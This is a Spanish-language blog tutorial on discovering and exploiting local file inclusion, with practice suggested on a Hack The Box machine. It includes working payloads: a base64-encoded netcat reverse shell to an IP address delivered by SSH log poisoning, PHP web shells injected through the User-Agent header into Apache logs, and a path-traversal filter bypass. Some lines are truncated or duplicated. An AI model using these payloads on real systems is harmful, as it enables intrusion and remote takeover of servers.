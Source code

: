 ```yaml
---
layout: single
title: Descubrimiento y explotacion de LFI (local file inclusion)
date: 2022-05-16
classes: wide
header:
   teaser: /assets/images/hacker-directorios.jpeg
categories:
  -vulnerabilidades
  
  
tags:
  -hacking
---
```



Hola , hoy os voy a enseñar como explotar y descubrir la vulnerabilidad LFI (local file inclusion) ademas os indico una maquina 
muy para poder praticar.


esta es una vulnerabilidad la cual se suele dar en paginas cuya url llama a algunos archivos del sistema ej: http://ejemplo.com/login?file=login.php.

para poder ver algunas rutas podemos cambiar el destino y en vez de poner login.php podemos poner cualquier archivo del sistema.

```

      rutas peligrosas en local file inclusion:
      /etc/passwd filtrar por grep = $sh (para ver los usurarios)
      una vez tenemos lo que parece un usuario.
      lo probamos con el
      /home/usuario



'''

una vez que hemos descubierto la vulnerabilidad , para explotarla podemos acceder a estas rutas peligrosas

'''

     otra ruta peligrosa es
    /proc/sched_debug (enumeracion de los progresos del sistema)
    /proc/net/fib_trie (direcciones ip)
    /var/log/auth.log (todos los logs del sistema)

'''

ahora vamos a explotar el poder leer el archivo auth.log


'''
    para conseguir una ejecucion de comandos necesitamos acceder al archivo /var/log/auth.log
    una vez tenemos el archivo podemos crear un payload y codificarlo en base 64 :
    echo "nc -e /bin/bash <ip> 433 | base64; echo
    este es un ejemplo
    echo"nc -e /bin/bash 10.10.105.17 433" | base64; echo
    una vez tenemos el codigo lo copiamos
    este seria el payload final:
    echo "bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwNS4xNyA0MzMK" | base64 -d | bash
    ahora con ssh nos intetamos conectar con el paylodad:
    ssh <?php system("echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwNS4xNyA0MzMK | base64 -d | bash
    "); ?> @10.10.105.17 

'''

si no encotramos el archivo o el firewall nos rechaza la conexio podemos probrar a buscar el archivo /var/log/apache2/a>
una vez aqui podemos modificar el user agent con curl para ejecutar comandos:


'''


    si no encotramos el archivo o el firewall nos rechaza la conexio podemos probrar a buscar el archivo /var/log/apache2/a>
    una vez aqui podemos modificar el user agent con curl para ejecutar comandos:
    esto se haria tal que asi:
    curl -s -H "User-Agent: <?php system("which nc"); ?>" "http://10.10.105.17/lfi/lfi.php?page=/var/log/apache2/access.log"
    esto no ejecutara el comando que especificamos en system("") en este caso para ver si podremos obtener una shell con netcat


'''


esta seria otra forma


'''
    otra forma de hacerlo seria utilizando (otra vez el access.log , que se encuentra en la ruta /var/log/apache/access.log
    asi podremos ver los logs y los user agents
    modificando el user agent podemos injectar codigo tal que asi:
    curl "http://example.htb -H "User-Agent : <?php system(\$_GET['bash']); ?>"


'''

algunas paginas utilizan filtros a la hora de filtrar los strings /../ asi que podemos utilizar este:
%ef%bc%8f

MAQUINAS PARA PRACTICAR:
   beep -> hack the box
